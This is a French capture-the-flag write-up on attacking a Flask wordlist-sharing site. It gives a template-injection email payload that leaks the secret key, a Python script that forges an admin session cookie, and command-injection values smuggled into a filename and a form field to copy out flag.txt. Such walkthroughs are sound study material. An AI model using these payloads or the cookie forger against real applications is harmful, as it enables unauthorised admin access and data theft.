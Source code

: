 # Le but est d’obtenir le fichier `flag.txt` stocker dans le site web.

## intro

Dans le dossier `app` on peut reconnaitre un site web créé avec **Python** et **Flask**.

Dans le fichier `_init_.py` on voit qu’un compte admin est créé avec un mot de passe aléatoire :
```python
users.add(
    username='admin',
    email='admin@crackedstation.com',
    password=os.urandom(32).hex(),
    description='I am the greatest of all time.',
    is_admin=True
)
```

Dans la fonction **wordlist_download()** du fichier principal du site `route.py` voit une possibilité de *Command Injection* dans les lignes :
```python
    if subprocess.Popen(f'ls "{wordlist[2]}"', shell=True, stdout=subprocess.PIPE).stdout.read() == b'':
        if subprocess.Popen(f'ls "{wordlist[1]}"', shell=True, stdout=subprocess.PIPE).stdout.read() == b'':
            return abort(404)
```

Le programme exécute la commande Linux **ls** pour vérifier que le nom du fichier existe bien dans le dossier pour pouvoir le télécharger. S'il n'existe pas, alors il passe à l’autre **if** qui va à son tour vérifier si un fichier qui a le nom qu’on lui a donné sur le site existe, sinon il renvoie une erreur.

La faille *Command Injection* va nous permettre d'exécuter des commandes Linux afin de récupérer notre flag.

D'après la BDD (Base De Données) du site, on a :

![representation de wordlist[1] et wordlist[2]](./image1.png)

Mais pour utiliser cette faille, on doit d'abord pouvoir télécharger notre wordlist, et sur ce site une wordlist est téléchargeable uniquement si un admin l'a approuvée. On doit donc obtenir le compte admin existant.

## I obtenir le compte admin

Dans `Wordlist.py`, en regardant de plus près la template Jinja2 pour la page /profile, on voit que **user[2]** est incrusté dans la template sans aucune vérification de son contenu, ce qui peut exposer le site à un *Server-Side Template Injection* qui consiste en une injection de code Jinja2 pour, dans notre cas, consulter des données sensibles.

Dans la BDD, **user[2]** correspond à l'email de l'utilisateur, donc on pourrait utiliser un payload en tant que email, cependant on est limité sur ce que l'on peut faire car à la création du compte l'email est filtré :
```python
if "@" not in email or "." not in email.split("@")[-1] or any (c in "<>_ " for c in email): return render_template('register.html', error="ERROR: Invalid email address")
```

On n'a pas le droit d'utiliser `<`,`>`,`_` et l'espace, il est donc très compliqué de récupérer le fichier `flag.txt` avec cette injection.

Par contre, on peut afficher toutes les variables de app.config avec `{{config}}`.

Pour exploiter cette faille, on va créer un compte avec comme email `{{config}}@fake.com`, on upload une wordlist random et on va sur la page /profile, ce qui nous donne ça :

![resultat de l'injection](./image2.png)

Dans tout ce charabia, il y a une variable très intéressante, la variable **SECRET_KEY**, initialisée dans `_init_.py` qui, dans le contexte d'une application Flask, permet de créer/signer un token d'utilisateur valide pour accéder au site, ce qui veut dire qu'on peut créer/signer nous-mêmes le token de la fameuse session admin.

Dans `routes.py` on voit les paramètres pris en compte par le site :
```python
if user:
    user = users.get(username=username)
    session['id'] = user[0]
    session['username'] = user[1]
    session['is_admin'] = user[5]
    return redirect(url_for('index'))
```

On va donc recréer le même fonctionnement dans notre propre script Python pour la session admin.

Je vous présente **ADMIN SESSION TOKEN GENERATOR 3000!!!**
```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

SECRET_KEY = "..."

app = Flask(__name__)
app.secret_key = SECRET_KEY

session_serializer = SecureCookieSessionInterface()\
    .get_signing_serializer(app)

# Donnees de session admin
session_data = {
    'id': 1,  # ont utilise l'id du premier utilisateur
    'username': 'admin',
    'is_admin': True,
    '_permanent': True  # obligatoire pour que le site accepte le token
}

token = session_serializer.dumps(session_data)
print(f"Token trop cool : {token}")
```
Avec une extension Chrome comme [cookie editor](https://chromewebstore.google.com/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm) on va remplacer notre token actuel par celui généré par le script et boom ! On est login en admin et on peut enfin valider des wordlists !

## II obtenir le flag.txt avec une injection de commandes

Reprenons les recherches commencées dans l'intro, notre but va être de copier le contenu de flag.txt dans rockyou.txt (qui est la wordlist déjà présente sur le site) pour après la télécharger.

Il faut faire la commande Linux `cp ../flag.txt wordlists/rockyou.txt`, on peut donc essayer de mettre cette commande dans le nom du fichier car c'est la première chose que le programme vérifie ?

Sauf qu'un nom de fichier ne peut pas contenir ces caractères : `<`,`>`,`:`,`"`,`/`,`\\`,`|`,`?`,`*` ce qui rend impossible l'exécution de notre commande.

La seule solution serait de le faire dans le deuxième **if** car on peut mettre ce qu'on veut dans **wordlist[1]**.

Il faudrait donc tromper le programme en le faisant chercher un fichier qui n'existe pas pour qu'il exécute le second **if**, ce qu'on peut facilement faire en nommant notre fichier `$(echo e).txt`, `$(...)` va exécuter une commande Linux à l'intérieur des parenthèses et `echo e` retourne simplement la lettre e.

Le programme va donc chercher un fichier nommé `e.txt` mais ne va rien trouver car notre fichier existe toujours sous le nom de `$(echo e).txt` et boom ! il va exécuter directement notre deuxième injection.

Pour la deuxième injection, **wordlist[1]** va contenir `$(cp ../flag.txt wordlists/rockyou.txt)`, ce qui va exécuter notre commande et renvoyer l'erreur 404 car logiquement il n'y a aucun fichier avec un tel nom.

Notre page d'upload va donc ressembler à ça :

![wordlist upload page remplis](./image3.png)

On arrive donc sur une page d'erreur, maintenant on peut revenir sur la page d'accueil et télécharger la wordlist rockyou.

En ouvrant le fichier téléchargé, on devrait voir notre flag !

## merci d'avoir lu !
